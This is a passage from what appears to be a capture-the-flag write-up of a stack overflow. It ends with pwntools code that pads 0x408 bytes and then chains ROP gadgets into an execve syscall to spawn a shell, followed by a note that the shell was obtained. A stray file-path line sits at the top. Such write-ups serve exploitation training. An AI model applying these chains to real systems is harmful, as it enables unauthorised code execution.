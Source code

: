 ```
pop rdx, 0x0

syscall
'''

rop += popRax
rop += p64(0x3b)

rop += popRdi
rop += p64(0x6b6000)

rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)

rop += syscall


# Add the padding to the saved return address
payload = b"0"*0x408 + rop

# Send the payload, drop to an interactive shell to use our new shell
target.sendline(payload)

target.interactive()
```

When we run it:

![running_exploit](pics/running_exploit.png)

Just like that, we popped a shell!
